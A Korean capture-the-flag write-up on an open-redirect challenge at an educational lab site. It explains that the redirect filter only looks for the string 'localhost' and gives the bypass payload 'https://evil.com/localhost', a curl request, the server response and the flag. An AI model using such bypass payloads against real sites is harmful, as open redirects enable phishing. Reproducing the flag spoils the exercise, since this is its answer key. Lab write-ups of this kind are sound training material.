

# 02. Open Redirect

## 문제 설명
`next` 파라미터로 이동시키는 `/go` 엔드포인트가 있고, "외부 도메인으로 리다이렉트를
성공시키면 flag를 준다"고 안내한다.

## 분석
- `/go?next=/welcome` → 정상 리다이렉트
- `/go?next=http://edu.arang.kr:9108/welcome` → `400 차단된 리다이렉트`
- `/go?next=//evil.com` → `302`로 우회는 되지만 flag는 나오지 않음

즉 `next`가 `http://`/`https://`로 시작하면 차단되고, `/`로 시작하거나 `localhost`를
포함하면 통과된다. 검사 로직이 문자열에 `localhost`가 있는지만 보고 실제 목적지
도메인은 검사하지 않는 것이 핵심 허점이다.

따라서 `localhost` 문자열은 경로에 넣어 검사만 통과시키고, 실제 host는 외부
도메인이 되도록 만들면 우회가 성립한다.

## 익스플로잇

### 페이로드
```
https://evil.com/localhost
```
- `localhost` 포함 → same-site 검사 통과
- 실제 리다이렉트 host는 `evil.com` → 외부 도메인 판정 → flag 노출

### 요청
```bash
curl -i "http://edu.arang.kr:9108/go?next=https://evil.com/localhost"
```

### 응답
```
HTTP/1.1 200 OK
<h3>open redirect 성공!</h3>
<p>외부 도메인 <b>evil.com</b> 으로의 리다이렉트가 허용되었습니다.</p>
<p>flag: flag{531256e0cb5245ea3517}</p>
```
브라우저에서는 입력란에 `https://evil.com/localhost`를 넣고 "이동"을 누르면 동일하게
flag 페이지가 표시된다.



## 플래그
```
flag{531256e0cb5245ea3517}
```
